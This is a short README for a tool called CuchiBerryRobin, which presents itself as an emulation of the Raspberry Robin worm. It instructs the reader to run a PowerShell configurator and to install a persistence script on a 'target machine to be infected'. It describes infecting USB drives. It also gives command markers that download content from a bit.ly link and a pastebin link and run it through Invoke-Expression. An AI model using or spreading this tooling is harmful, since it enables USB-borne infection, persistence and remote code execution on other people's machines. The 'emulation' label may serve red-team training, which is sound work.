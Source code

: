 # CuchiBerryRobin

![Screenshot](2023-03-10_17-18.png)

Your own RaspberryRobin Emulation, infect USB and get the payload from de internet.

Just clone, execute CUCHIBERRYROBIN_CONFIGURATOR.ps1 and then install tmp/Persister.ps1 in the target machine to be infected.

Diferent types of commands:

(always exeutes powershell):

#CUCHIBERRYROBIN calc.exe #FIN => executes calc.exe

#10CUCHIBERRYROBIN $ https://bit.ly/3kJjNqK #FIN => $ means iex of the content of the URL

#9CUCHIBERRYROBIN ñC https://pastebin.com/raw/R6sTE0GK #FIN => ñC means same as $ but should have a digital signature of the commands (avoid hijacking the network)




